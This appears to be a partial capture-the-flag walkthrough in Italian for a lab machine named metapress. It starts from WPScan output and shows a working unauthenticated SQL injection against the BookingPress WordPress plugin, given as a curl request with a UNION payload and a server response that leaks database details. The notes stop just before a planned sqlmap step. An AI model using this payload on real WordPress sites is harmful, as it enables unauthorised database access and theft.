 [+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 8
 | Requests Remaining: 67

[+] Finished: Sun Nov 27 15:48:04 2022
[+] Requests Done: 126325
[+] Cached Requests: 32
[+] Data Sent: 38.417 MB
[+] Data Received: 45.631 MB
[+] Memory used: 502.508 MB
[+] Elapsed time: 00:58:43

2) Abbiamo trovato questa vulenrabilità: 
 [!] Title: BookingPress < 1.0.11 - Unauthenticated SQL Injection >

3) Ora dalle Reference andiamo a vedere come si sfrutta
4) Andiamo nella pagina:  http://metapress.htb/events/

5) Cerchiamo nel codice sorgente la key-words: "nonce"

6)Troviamo questa riga di codice:  var postData = { action:'bookingpress_before_book_appointment', appointment_data: vm.appointment_step_form_data,_wpnonce:'f8ef325342' };

7) Poi faccio questa richiesta :
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
 --data 'action=bookingpress_front_get_category_services&_wpnonce=f8ef325342&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'

HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sun, 27 Nov 2022 21:00:33 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}] 

8) Ora che abbaimo scoperto la vulnerabilità proviamo a usare sqlmap, per fare ciò apriamo burp mettiamo intercepts e facciamo dal nostro terminale questa richiesta:

